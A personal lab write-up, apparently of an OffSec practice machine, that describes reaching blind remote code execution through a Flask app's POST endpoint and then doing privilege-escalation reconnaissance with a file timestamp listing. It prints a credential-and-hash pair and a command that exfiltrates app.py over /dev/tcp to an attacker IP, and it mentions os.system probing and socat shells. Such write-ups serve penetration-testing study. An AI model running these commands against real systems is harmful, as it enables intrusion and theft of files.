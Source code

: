 Double checked just in case I am the bigger idiot in this
![](doublecheck.png)

And without the cookie
![](withoutthecookie.png)

Well thank you Offsec for now elevating my paranoia over whether burpsuite works. Lesson `curl` everything. Ippsec and BurpSuite are great, but this is nuts. Science is the answer!
![](proxyingtoburptocomparerequests.png)
My POST request did not have a Content-Type. `Content-Type: application/x-www-form-urlencoded`. That is such a silly mistake.

`admin@toshredsyousay.com : 42432f040c83e46478debf2cdf32cb0513c112166a7d6afac04274743620e70c`
![](whydoesthiswork.png)

Similarly we can POST and once again `curl` is the answer
![](andtheRCEbegins.png)

The write up goes on to just USE SOCAT like you are suppose to know it is on the box, which is weird. Tried enumeratinmg with `os.system('which socat')`, but the this is blind vulnerability so `ping` ourselves 
![](weirdwu.png)

## Foothold & PrivEsc

From this point I closed the write-up, firstly ensurely I was choosing a good port, sh instead of bash because CentOS and Offsec insistence it seems on their boxes that Iptables for all non used ports by the machine. This struck me as weird as would there be symmetry in the real world? It is so  weird that I can just exfil app.py with 
`bash -c "cat app.py > /dev/tcp/192.168.45.174/50000"`, but not to 6969

![](sharingwithroot.png)

![](autorelabeling.png)



POstGreSQL user and its running on 127.0.0.1 5432

![](rubywritablewriteablepath.png)

```bash
# mine
2023-10-19+21:07:27.8426520870 /dev/shm/linpeas.sh
# checked
2020-11-13+21:33:49.6513264950 /var/ftp/static/bootstrap/js/html5shiv.js
2020-11-13+21:33:49.6473264950 /var/ftp/shell.py
2020-11-13+21:33:49.6473264950 /var/ftp/run.py
# Tyhe /verify you know that POST and Content-Type idiot app 
2020-11-13+21:19:51.4573523100 /home/cmeeks/restjson_hetemit/app.py
# Weird python script
2020-11-13+20:43:21.9765181170 /usr/local/bin/cheroot
# Flash
2020-11-13+20:43:14.2585183550 /usr/local/bin/flask
#  
2020-11-13+20:39:34.6855251170 /home/cmeeks/.rvm/rubies/ruby-2.6.3/.irbrc
2020-11-13+20:39:33.6965251480 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/ri
2020-11-13+20:39:33.6885251480 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/irb
2020-11-13+20:39:33.6795251480 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/ruby
2020-11-13+20:39:33.6705251490 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/executable-hooks-uninstaller
2020-11-13+20:39:33.6625251490 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/ruby_executable_hooks
2020-11-13+20:39:33.6545251490 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/gem
2020-11-13+20:39:33.6455251490 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/bundle
2020-11-13+20:39:33.6375251500 /home/cmeeks/.rvm/rubies/ruby-2.6.3/bin/bundler
```